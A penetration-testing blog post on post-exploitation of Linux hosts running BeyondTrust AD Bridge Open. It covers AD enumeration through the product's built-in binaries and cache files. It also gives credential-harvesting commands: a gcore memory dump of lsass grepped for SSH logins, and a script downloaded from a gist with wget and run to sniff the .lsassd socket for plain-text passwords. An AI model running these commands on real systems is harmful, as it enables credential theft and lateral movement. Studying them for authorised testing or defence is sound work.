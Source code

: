 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation.

Active Directory Bridging (AD Bridging) is a mechanism that allows users to log on to non-Windows systems using Active Directory (AD) login credentials. It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).

This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using AD Bridge Open. Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551). The project was discontinued and moved to a enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment - especially if the Linux box was streamlined and does not have installed any LDAP or SMB clients typicaly present on Linux distributions.

The software keeps a cache file of domain users and associated Active Directory information on this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`. A lot of information about Active Directory environment, without making any request to the Domain Controllers, can be extracted from this file.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they all reside on the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` is a SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm)




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

In order to get some plain text credentials the LSASS process can be targeted Mimikatz style, minus the memory structures parsing complexities of LSASS on Windows.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


SSH is integrated with Active Directory using AD Bridge Open, so I can dump the process memory, run strings and grep for SSH authentications or passwords.


GDB can be attached using one of the AD Bridge Open binaries `/opt/pbis/bin/lwsm gdb lsass`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run ``gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"``

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it is a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

``
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
``

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is active with users or there is some automated scanning software that does authenticated scans against the server infrastructure (eg: Nessus) I should get their SSH logins, and capture the plain text credentials.

`tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd`


Pretty sure that there's a lot that I didn't covered or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

